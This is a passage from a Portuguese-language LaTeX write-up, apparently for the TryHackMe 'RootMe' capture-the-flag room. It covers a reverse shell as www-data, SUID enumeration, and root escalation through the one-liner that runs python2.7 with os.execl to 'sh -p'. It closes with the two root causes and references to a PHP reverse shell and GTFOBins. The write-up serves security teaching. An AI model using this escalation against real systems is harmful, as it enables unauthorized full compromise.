  
\includegraphics[width=0.95\linewidth]{9-netcat-to-reverse-shell.png}
  \caption{Netcat recebendo a \emph{reverse shell} como \texttt{www-data}.}
  \label{fig:netcat}
\end{figure}

A \emph{flag} de usuário é então lida em \texttt{/var/www/user.txt}.

\begin{lstlisting}[language=bash,caption={Leitura da flag de usuário.}]
cd /var/www
cat user.txt        # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{10-user-flag.png}
  \caption{Enumeração de \texttt{/var/www} e obtenção da \emph{flag} de usuário.}
  \label{fig:userflag}
\end{figure}

%======================== 2.6 ESCALADA DE PRIVILEGIOS ==========================
\section{Escalada de Privilégios}

\subsection{Enumeração local}
Como \texttt{www-data}, procuram-se binários com o bit \emph{SUID} (permissão
\texttt{4000}), que executam com os privilégios do dono do arquivo partindo do raiz.
Se algum interpretador ou binário executável estiver marcado como SUID 
de \texttt{root}, ele pode ser abusado para elevar privilégios.

\begin{lstlisting}[language=bash,caption={Busca por binários SUID (erros descartados).}]
find / -perm -4000 -type f 2>/dev/null
\end{lstlisting}

Entre binários SUID legítimos do sistema, destaca-se um anômalo:
\texttt{/usr/bin/python2.7}. Um interpretador completo com SUID de
\texttt{root} é o vetor de escalada.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.5\linewidth]{11-suid.png}
  \caption{\texttt{/usr/bin/python2.7} listado entre os binários com bit SUID.}
  \label{fig:suid}
\end{figure}

\subsection{Exploração e obtenção de root}
Conforme a técnica documentada no GTFOBins para Python com SUID, invoca-se o
interpretador com a \emph{flag} \texttt{-p} de \texttt{/bin/sh}, que
\textbf{preserva o EUID efetivo} (\texttt{root}) em vez de descartá-lo. Isso
produz um \emph{shell} privilegiado.

\begin{lstlisting}[language=bash,caption={Abuso do Python SUID para virar root.}]
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
\end{lstlisting}

O \cmd{whoami} retorna \texttt{root}, comprovando o comprometimento total.
A \emph{flag} final é lida em \texttt{/root/root.txt}.

\begin{lstlisting}[style=output,caption={Confirmação de acesso privilegiado.}]
whoami
root
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\linewidth]{12-privilage-escalation.png}
  \caption{Execução do Python SUID resultando em \emph{shell} como \texttt{root}.}
  \label{fig:privesc}
\end{figure}

\begin{lstlisting}[language=bash,caption={Leitura da flag de root.}]
cd /root
cat root.txt        # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\linewidth]{13-root-flag.png}
  \caption{Enumeração de \texttt{/root} e obtenção da \emph{flag} de \texttt{root}.}
  \label{fig:rootflag}
\end{figure}

%============================= 2.7 CONCLUSAO ====================================
\section{Conclusão}
O comprometimento resultou do encadeamento de duas más configurações. Primeiro,
o painel web em \texttt{/panel} permitia \emph{upload} irrestrito de formatos de arquivos:
o envio de uma \emph{webshell} \texttt{.php5}, executável a partir do diretório
público \texttt{/uploads}, concedeu execução remota de código como
\texttt{www-data}. Em seguida, o binário \texttt{/usr/bin/python2.7} estava
indevidamente marcado como \emph{SUID root}; abusá-lo via (\texttt{sh -p}) elevou o acesso a \texttt{root}. A falha central foi a
ausência de validação de \emph{upload}, agravada por um interpretador com bit
SUID desnecessário.

%============================= 2.8 REFERENCIAS ==================================
\section{Referências}
Este desafio decorre de más configurações (\emph{unrestricted file upload} e
binário SUID), não de uma CVE específica.
\begin{itemize}[leftmargin=1.5em]
  \item pentestmonkey --- \texttt{php-reverse-shell} ---
        \url{https://github.com/pentestmonkey/php-reverse-shell}
  \item GTFOBins --- Python (SUID) ---
        \url{https://gtfobins.github.io/gtfobins/python/\#suid}
  \item TryHackMe --- Sala \emph{RootMe} ---
        \url{https://tryhackme.com/room/rrootme}
\end{itemize}

\end{document}
